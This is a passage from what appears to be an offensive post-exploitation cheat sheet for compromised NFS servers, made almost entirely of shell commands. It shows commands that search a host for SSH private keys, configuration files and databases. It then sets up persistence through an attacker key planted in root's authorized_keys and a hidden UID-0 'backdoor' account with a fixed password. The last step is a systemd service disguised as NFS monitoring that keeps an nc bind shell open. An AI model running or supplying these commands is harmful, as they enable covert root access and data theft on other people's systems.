 ```bash
journalctl -u nfs-server
dmesg | grep nfs
```

### Data Collection
```bash
# Sensitive files
find / -name "*.conf" -o -name "*.config" 2>/dev/null | head -20
find /home -type f \( -name "*.txt" -o -name "*.doc*" -o -name "*.pdf" \) 2>/dev/null

# Database files
find / -name "*.db" -o -name "*.sqlite*" -o -name "*.sql" 2>/dev/null

# SSH keys
find / -name "id_rsa" -o -name "id_dsa" -o -name "*.key" 2>/dev/null
find / -name "authorized_keys" 2>/dev/null

# Configuration backups
find / -name "*.bak" -o -name "*.backup" -o -name "*~" 2>/dev/null
```

### Persistence Establishment
```bash
# SSH key persistence
mkdir -p /root/.ssh
echo "<your-public-key>" >> /root/.ssh/authorized_keys
chmod 600 /root/.ssh/authorized_keys
chmod 700 /root/.ssh

# Create backdoor user
useradd -m -s /bin/bash -u 0 -g 0 -o backdoor
echo "backdoor:SecurePass123" | chpasswd

# Systemd service persistence
cat > /etc/systemd/system/nfs-backdoor.service << 'EOF'
[Unit]
Description=NFS Monitoring Service
After=network.target

[Service]
Type=simple
User=root
ExecStart=/bin/bash -c 'while true; do nc -l -p 5555 -e /bin/bash; done'
Restart=always
RestartSec=60

[Install]
WantedBy=multi-user.target
EOF

systemctl enable nfs-backdoor.service
systemctl start nfs-backdoor.service
```

---